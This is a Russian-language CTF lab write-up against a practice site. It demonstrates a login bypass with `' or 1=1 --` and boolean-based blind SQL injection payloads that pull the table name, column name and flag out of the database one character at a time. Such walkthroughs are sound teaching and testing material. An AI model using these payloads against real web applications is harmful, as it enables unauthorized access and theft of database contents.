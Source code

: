 # Практика 4 часть 3

Открываем [веб-сайт](http://blindsql.myctf.ru)

На этот раз фаззинг директорий нам ничего не принес. Пароль, полученный из исходников нам тоже не помог. Поэтому, попробуем выполнить sql инъекцию.

Попробуем инъекцию проверки пароля, введем в качестве логина — `admin`, а в качестве пароля `123' or 1=1 -- 123`. Данная атака позволяет выполнить свести логическую проверку пароля к проверке равенства `1=1`, которое всегда `True`, а следовательно выполнится. После чего остаток логики автора комментируется с помощью двойного тире. Выполнив атаку мы попадаем на страницу:

![image21](images/image21.jpg)

Видим что мы обошли авторизацию, но флаг не тут. Понимаем, что при истинном значении (`1=1`) мы обходим авторизацию, при ложном (`1=0`) нет. Используя эти знания пробуем достать данные из базы посимвольно.

![image22](images/image22.jpg)

Сначала имя таблицы:

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='l' -- -&password=somenewpass
```

(Получили таблицу flag)

Потом имя столбца:

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='l' -- -&password=somenewpass
```

(получили столбец flag)

И в конце достаем флаг:

```sql
login=admin' and substr((select flag from flag),1,1)='F' -- -&password=somenewpass
```

```sql
login=admin' and substr((select flag from flag),2,1)='l' -- -&password=somenewpass
```

Уязвимость в данном задании заключается в том, что мы можем делать любые запросы к базе данных, однако у нас нет возможности отобразить информацию на экране, поэтому мы используем некоторую логическую операцию: так например, если мы осуществляем успешный логин, с помощью конструкции `1=1`, а при `0=1` – логина нет, то нам ничего не мешает осуществить ту же самую операцию, сравнивая, например буквы — `f=f`, а раз мы можем сравнивать буквы, то можно попробовать сформировать одну из частей выражения запросом, а другую — подставлять руками. Таким образом, если, например, `1 буква имени таблицы = f`, то подставив в правую часть выражения `f`, мы успешно залогинимся. Если же мы не угадали, то можем перебирать правую часть выражения до тех пор, пока равенство не выполнится и не произойдет успешный логин. Вручную, конечно, это делать крайне трудозатратно, поэтому обычно такие процессы автоматизируют. Данная уязвимость, в зависимости от ограничений и прав пользователя из под которого происходит запрос, позволяет извлечь/записать любые данные из базы.

